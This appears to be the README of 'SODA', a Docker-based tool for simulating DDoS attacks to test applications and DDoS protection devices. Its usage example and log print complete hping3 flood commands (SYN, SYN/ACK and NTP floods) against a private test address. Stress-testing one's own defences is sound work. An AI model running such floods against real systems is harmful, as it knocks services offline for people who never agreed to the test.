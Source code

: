 # Simulation of DDoS Attacks
SODA framework allows to launch any kind of DDoS attacks to discover your application weaknesses or evaluate DDoS protection device configuration.
# Requirements
Docker engine needs to be installed
# Usage
```
attacker@host$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock soda 10.11.73.12 -t 1 -n vlan973 -i 5
2019-05-30 17:56:47.643947 ATTACK START: SYN Flood: ['hping3', '-S', '-p', '80', '--flood', '10.11.73.12']
2019-05-30 17:56:53.575779 ATTACK STOP: SYN Flood
2019-05-30 17:56:53.993703 ATTACK START: NTP Flood: ['hping3', '-2', '-p', '123', '-s', '123', '-k', '-d', '64', '--flood', '10.11.73.12']
2019-05-30 17:56:59.923751 ATTACK STOP: NTP Flood
2019-05-30 17:57:00.365518 ATTACK START: SYN/ACK Flood: ['hping3', '-SA', '-p', '80', '--flood', '10.11.73.12']
2019-05-30 17:57:06.262938 ATTACK STOP: SYN/ACK Flood
2019-05-30 17:57:06.678110 ATTACK START: NTP Non-standard Port Flood: ['hping3', '-2', '-p', '++1', '-s', '123', '-k', '-d', '64', '--flood', '10.11.73.12']
^CKilling all running containers...
goofy_keldysh
```
